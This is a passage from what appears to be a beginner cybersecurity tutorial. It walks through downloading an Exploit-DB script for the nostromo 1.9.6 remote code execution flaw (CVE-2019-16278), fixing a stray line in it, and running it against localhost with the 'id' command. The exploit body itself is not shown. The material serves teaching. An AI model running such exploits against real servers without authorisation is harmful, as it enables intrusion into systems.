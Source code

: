 <img src="./Cybersecurity_101_screenshots/owasp11.jpg" width="800" alt="Screenshot 11"> <br>

Lucky us, the top result happens to be an exploit script. Let's download it and try to get code execution. Running this script on its own teaches us a very important lesson.

```bash 
user@linux$ python 47837.py
Traceback (most recent call last):
  File "47837.py", line 10, in <module>
    cve2019_16278.py
NameError: name 'cve2019_16278' is not defined
```

Exploits you download from the Internet may not work the first time. It helps to understand the programming language the script is in so that, if needed, you can fix any bugs or make any modifications, as quite a few scripts on Exploit-DB expect you to make modifications.

Fortunately, the error was caused by a line that should have been commented out, so it's an easy fix.

```bash 
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented.

#!/usr/bin/env python
```

Fixing that, let's try and run the program again.

```bash 
user@linux$ python2 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/
```